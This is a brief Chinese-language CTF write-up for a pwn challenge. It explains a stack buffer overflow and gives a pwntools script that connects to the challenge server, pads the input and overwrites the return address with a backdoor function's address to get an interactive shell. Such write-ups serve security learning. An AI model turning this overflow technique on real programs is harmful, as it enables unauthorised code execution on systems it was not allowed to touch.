 # 挑战简介
看着好像没啥问题

# 思路
检测两次输入，一个是你字符串的长度，另一个则是你输入的字符  

最后，返回一个你输入的数据  

首先便是溢出，然后通过找到的后门函数，直接返回这个后门函数的地址即可  

```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28274)

elf = ELF('D:\edge 下载\pwn')

that = elf.symbols['that']

io.recvuntil(b'How long are you?')

io.sendline(b'25')

io.recvuntil(b'Who are you?')

payload = 0xE + 0x8
io.sendline(b'a'*payload + p64(that))

io.interactive()
```
